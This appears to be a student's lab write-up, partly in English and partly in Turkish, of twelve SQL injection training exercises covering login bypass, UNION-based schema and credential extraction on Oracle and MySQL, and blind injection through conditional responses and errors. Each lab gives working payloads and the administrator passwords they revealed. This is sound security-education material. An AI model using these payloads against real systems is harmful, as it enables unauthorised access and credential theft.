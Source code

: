 #### 1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

In this lab w<b>e</b> are si<b>m</b>ply asked to f<b>i</b>nd hidden contents, to do this we simply w<b>r</b>ite 
'OR 1=1 -- in t<b>h</b>e c<b>a</b>tegory filter.


#### 2.Lab: SQL injection vulnerability allowing login bypass

We <b>n</b>eed to log in as administrator in this lab
so we wite administrator to the username space and in the password space we write a ' OR 1=1 --

#### 3.Lab: SQL injection attack, querying the database type and version on Oracle
in the url in the category filter we write the Querry below, there is a Union Based vulnerability so we use that.
' UNION SELECT banner,NULL FROM v$version --

#### 4.Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
In this lab we use the UNION based querry below, in the category filter, we enter null till we find the column number, and because this thing is MySQL I had to add random characters after the comment

' UNION SELECT @@version,NULL -- ASDFDAS

#### 5.Lab: SQL injection attack, listing the database contents on non-Oracle databases

First of all we try entering null to learn how many columns the querry generates, to do that I wrote : ' UNION Select NULL,NULL -- hallo
this meant that the querry returned 2 comluns
then we use the information_schema that holds information about the working of the db, tables, columns etc. to get the names of the tables to find the users_table
with the querry below we get the names of the columns and tables:

' UNION Select Table_name, column_name from information_schema.columns -- hallo

through this we learn that the user table name is 

| Users Table     | users_sjqbuu    |
| --------------- | --------------- |
| password column | password_vbjxeg |
| username column | username_wtupts |
| email column    | email           |
After that we do a querry to get the password for the administrator.

' UNION Select username_wtupts, password_vbjxeg from users_sjqbuu where username_wtupts='administrator' -- hallo

 the querry above returns 

 administrator q4lufxjulfdiihgwz0oz 

| username      | password             |
| ------------- | -------------------- |
| administrator | q4lufxjulfdiihgwz0oz |
than we simply log in with this information

#### 6.Lab: SQL injection attack, listing the database contents on Oracle

For this one we have to do the same thing as the previous one but on an oracle database, which only changes the syntax of the querry.

To determine the number of columns a the table has we write

' UNION SELECT NULL, NULL FROM dual -- 
because oracle doesnt allow you to do a column number check without using a table, so we use a system table named dual to do it.

To find the table names we enter the querry below:

' UNION SELECT table_name FROM all_tables --

After finding the table names we find info about the user table which is ' USERS_ICOBDO '

We write the querry below to get column names:
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_ICOBDO' --

In this case the column names are:
EMAIL
PASSWORD_GOXWED
USERNAME_JXUMQD
 
 aafter this we write:
 ' UNION SELECT PASSWORD_GOXWED, USERNAME_JXUMQD FROM USERS_ICOBDO Where USERNAME_JXUMQD = 'administrator'  --
to find the password which is : m11hon4l823kphi5yykw 
We log in and lab solved.

#### 7.Lab: SQL injection UNION attack, determining the number of columns returned by the query

For this lab we had to find how many columns the table in question has. To do that we simply wrote ' UNION SELECT NULL, NULL,null -- and the lab was solved.

#### 8.Lab: SQL injection UNION attack, finding a column containing text

In this lab we have to find the column with the string data
find the column number:
' UNION Select Null, null, null --

Basılması gereken string ifadeyi sorguda farklı sütunlara denk gelecek şekilde kaydırıyoruz. İkinci sütunun string compatible olduğu ortaya çıkıyor.

' UNION Select null, 'cUaHiD',null from information_schema.tables -- adsffdasss

#### 9.Lab: SQL injection UNION attack, retrieving data from other tables

Kullanıcı infosunu çekip admin olarak giriş yapmamız gerekmektedir bu labda
' UNION select null, null -- asdffdasasdffdasasdfw
the command above helps us determine the number of columns being returned

tablo isimleri bulunur:
' UNION select table_name, null from information_schema.tables -- asdf

users adlı tablo kullanıcı bilgileri içerir.

içeriğini **' UNION select username, password from users -- asdf** komuduyla çekiyoruz

administrator olarak 905n98jzi70fdom4uoxu şifresiyle giriş yapıyoruz.

#### 10.Lab: SQL injection UNION attack, retrieving multiple values in a single column

For this lab, concat kullanarak password and username info will be extracted. Hedef aynı administrator login

labda string destekleyen tek bir sütun var bu yüzden username ve passwordleri tek bir sütunda çıkarıcaz:
' UNION select null,concat(username,' ', password) from users -- adffdassdf
administrator jssdznas6uio45ymlh6f

#### 11.Lab: Blind SQL injection with conditional responses

In this lab we are going to retrieve login info through conditional responses.
in the lab description it says that there is a table named users and that this table has a password and username column. It also states that there is aTrackingID cookie that we can use to perform a blind sql attack. 

Başta password length bulmak için aşağıdaki payload u kullanıyoruz:
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
ben bu işi otomatik olarak yapmak için burp intruder kullandım. 30 deneme girdim, 20nci denemede Welcome back mesajı artık çıkmıyordu bu da password length i belirtiyor

ardından şifreyi bulmak için aşağıdaki payload ı intruder da çalıştıracağız her bir alfanümerik karakter için. bir harf bulduğumuzda da substring konumunu değiştireceğiz.

payload: ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

böylece şifre yavaşça çıkıyor
şifre:
hpv2krlq3kioy6aze0y3

#### 12.Lab: Blind SQL injection with conditional errors

Password uzunluğu bulmamıza yarayan querry
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

Internal server error vermeyi 20 de bırakıyor

Password harflerini tek tek çıkaran querry
Cookie: TrackingId=1tfmSjKBM4BSqBLy'||(SELECT CASE WHEN SUBSTR(password,20,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

her internal srever error da bir karakter bulmuş oluyoruz

iqjcld9aci6sexljtive

| sayi | deger |
| ---- | ----- |
| 1    | i     |
| 2    | q     |
| 3    | j     |
| 4    | c     |
| 5    | l     |
| 6    | d     |
| 7    | 9     |
| 8    | a     |
| 9    | c     |
| 10   | i     |
| 11   | 6     |
| 12   | s     |
| 13   | e     |
| 14   | x     |
| 15   | l     |
| 16   | j     |
| 17   | t     |
| 18   | i     |
| 19   | v     |
| 20   | e     |
